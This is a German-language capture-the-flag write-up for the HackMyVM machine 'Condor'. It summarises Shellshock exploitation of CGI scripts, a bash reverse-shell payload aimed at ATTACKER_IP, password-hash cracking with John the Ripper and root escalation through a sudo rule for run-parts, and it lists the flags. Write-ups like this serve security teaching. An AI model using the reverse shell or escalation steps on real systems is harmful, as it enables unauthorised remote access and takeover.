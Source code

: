 # Condor - HackMyVM (Medium)

![Condor Icon](Condor.png)

## Übersicht

*   **VM:** Condor
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Condor)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 6. November 2021
*   **Original-Writeup:** https://alientec1908.github.io/Condor_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Die virtuelle Maschine "Condor" von HackMyVM (Schwierigkeitsgrad: Medium) wurde durch die Ausnutzung der Shellshock-Schwachstelle in einem CGI-Skript kompromittiert, was zu initialem Zugriff als Webserver-Benutzer führte. Durch das Auffinden einer benutzerdefinierten Passwortdatei im Home-Verzeichnis eines anderen Benutzers (`kevin`) konnten SHA512crypt-Hashes extrahiert werden. Einer dieser Hashes wurde mit John the Ripper geknackt und der zugehörige Benutzername (`paulo`) über Crackstation (MD5-Lookup) identifiziert. Die Privilegienerweiterung zu Root erfolgte durch die Ausnutzung einer unsicheren `sudo`-Regel, die es dem Benutzer `paulo` erlaubte, `run-parts` auf eine Weise auszuführen, die eine Root-Shell öffnete.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `nmap` (mit `http-shellshock` Skript)
*   `curl`
*   `feroxbuster`
*   `nc` (netcat)
*   `vi`
*   `john` (John the Ripper)
*   Crackstation (externe Webseite für MD5-Lookup)
*   Standard Linux-Befehle (`ls`, `cat`, `cd`, `cp`, `su`, `sudo`, `id`, `pwd`, `bash`)
*   `run-parts` (als Teil des Exploits)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Condor" gliederte sich in folgende Schritte:

1.  **Reconnaissance & Vulnerability Identification:**
    *   (Implizierter `arp-scan` zur IP-Findung: `192.168.2.128`, Hostname `condor.vm`).
    *   `nmap --script=http-shellshock` auf Port 80 identifizierte eine Shellshock-Anfälligkeit (CVE-2014-6271) im CGI-Skript `/cgi-bin/admin.cgi`.
    *   Die Anfälligkeit wurde mit `curl` und manipulierten `User-Agent`-Headern verifiziert (`echo "VULNERABLE..."`, `sleep 5`).
    *   `feroxbuster` fand ein weiteres CGI-Skript: `/cgi-bin/condor.sh`.

2.  **Initial Access (via Shellshock):**
    *   Die Shellshock-Schwachstelle wurde im Skript `/cgi-bin/condor.sh` ausgenutzt.
    *   Eine Reverse Shell wurde durch Injektion eines `/bin/bash -i >& /dev/tcp/ATTACKER_IP/9001 0>&1`-Payloads über den `Cookie`-Header mittels `curl` erlangt.
    *   Ein `nc`-Listener auf Port 9001 empfing die Shell (vermutlich als Webserver-Benutzer wie `apache` oder `www-data`).

3.  **Privilege Escalation (apache -> paulo):**
    *   In der erhaltenen Shell wurde das Home-Verzeichnis `/home/kevin` untersucht.
    *   Die Datei `/home/kevin/.i_did_it_again` wurde gefunden und enthielt eine Liste von Einträgen im Format `MD5-Hash:SHA512crypt-Hash`.
    *   Die SHA512crypt-Hashes wurden extrahiert und mit `john --wordlist=rockyou.txt` geknackt. Das Passwort `password123` wurde für den MD5-Hash `dd41cb18c930753cbecf993f828603dc` gefunden.
    *   Der MD5-Hash `dd41cb18c930753cbecf993f828603dc` wurde auf Crackstation als der Benutzername `paulo` identifiziert.
    *   Mit `su paulo` und dem Passwort `password123` wurde erfolgreich zum Benutzer `paulo` gewechselt.
    *   Die User-Flag wurde aus `/home/paulo/user.txt` gelesen.

4.  **Privilege Escalation (paulo -> root):**
    *   `sudo -l` für `paulo` zeigte: `(ALL) NOPASSWD: /usr/bin/run-parts --new-session --regex '^sh$' /bin`.
    *   Diese `sudo`-Regel wurde direkt ausgeführt: `sudo run-parts --new-session --regex '^sh$' /bin`.
    *   `run-parts` fand und führte `/bin/sh` (basierend auf der Regex `^sh$` im Verzeichnis `/bin`) als `root` aus, was zu einer Root-Shell führte.
    *   Die Root-Flag wurde aus `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Shellshock (CVE-2014-6271):** RCE-Schwachstelle in Bash, ausgenutzt über anfällige CGI-Skripte durch präparierte HTTP-Header (User-Agent, Cookie).
*   **Informationslecks:** Benutzerdefinierte Passwortdatei (`.i_did_it_again`) mit Passwort-Hashes im Home-Verzeichnis eines Benutzers.
*   **Passwort-Cracking:** Knacken von SHA512crypt-Hashes mit `john` und Zuordnung von MD5-Hashes zu Benutzernamen über Online-Dienste.
*   **Unsichere `sudo`-Konfiguration:** Erlaubte die Ausführung von `run-parts` mit Argumenten, die eine direkte Eskalation zu einer Root-Shell ermöglichten (GTFOBins-Technik).
*   **Laterale Bewegung:** Wechsel vom Webserver-Benutzer zum Benutzer `paulo` mittels geknackter Credentials.

## Flags

*   **User Flag (`/home/paulo/user.txt`):** `5870c58caa86a64fccc0d1b7b7717d39`
*   **Root Flag (`/root/root.txt`):** `fec28c2738220437750c2c9537c706f3`

## Tags

`HackMyVM`, `Condor`, `Medium`, `Shellshock`, `CGI`, `RCE`, `Password Cracking`, `JohnTheRipper`, `SHA512crypt`, `Sudo Privilege Escalation`, `run-parts`, `Linux`, `Web`
